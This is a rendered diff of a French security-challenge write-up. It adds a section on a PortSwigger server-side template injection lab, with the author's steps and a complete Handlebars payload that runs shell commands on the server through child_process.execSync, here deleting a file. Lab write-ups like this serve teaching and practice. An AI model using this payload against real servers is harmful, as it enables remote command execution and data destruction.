

Before and after one commit to deathfal/security-project, a Markdown page: challenges/challenges.md, the part around the change printed below. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/challenges/challenges.md
+++ b/challenges/challenges.md
@@ -116,3 +186,31 @@ curl -X POST "http://challenge01.root-me.org/web-serveur/ch53/index.php" -d "ip=
 Nous pouvons voir que le mot de passe est bien récupéré.
 
 <img src="img/Injection de commande - Contournement de filtre 4.png" alt="capture 18" width="400">
+
+# 10. Server-side template injection (unknown language)
+Link: https://portswigger.net/web-security/server-side-template-injection
+
+Après avoir déclenché une erreur sur la page produit en cliquant sur plus de details sur l'un des produits., j'ai testé une chaine de characteres d'exploit ssti  https://github.com/payloadbox/ssti-payloads `{{5*5}}` dans le paramètre `message` et dans la reponse on voit que l'app contient l'utilisation de Handlebars côté serveur via node. En important le payload d'exploit Handlebars https://gist.github.com/vandaimer/b92cdda62cf731c0ca0b05a5acf719b2 qui permet via faille de Handlbars d'executer des commandes shell sur le serveur je l'ai modifié pour executer ls -la pour verifier la presence de morale.txt puis j'ai modifié la commande pour supprimer le fichier avec rm morale.txt et verifier la reussite en faisant une autre fois un ls -la.
+
+```handlebars
+{{#with "s" as |string|}}
+	{{#with "e"}}
+		{{#with split as |conslist|}}
+			{{this.pop}}
+			{{this.push (lookup string.sub "constructor")}}
+			{{this.pop}}
+			{{#with string.split as |codelist|}}
+				{{this.pop}}
+				{{this.push "return require('child_process').execSync('rm morale.txt');"}}
+				{{this.pop}}
+				{{#each conslist}}
+					{{#with (string.sub.apply 0 codelist)}}
+						{{this}}
+					{{/with}}
+				{{/each}}
+			{{/with}}
+		{{/with}}
+	{{/with}}
+{{/with}}
+```
+
````
Also changed, not shown: other parts of challenges/challenges.md (+72 -1 lines), challenges/img/CSRF - Jeton contournement.png (added), challenges/img/CSRF - Referer optional.png (added), challenges/img/CSRF - Token not tied session.png (added), challenges/img/File path traversal - Null byte bypass.png (added), challenges/img/SSTI - Unknown template exploit.png (added).
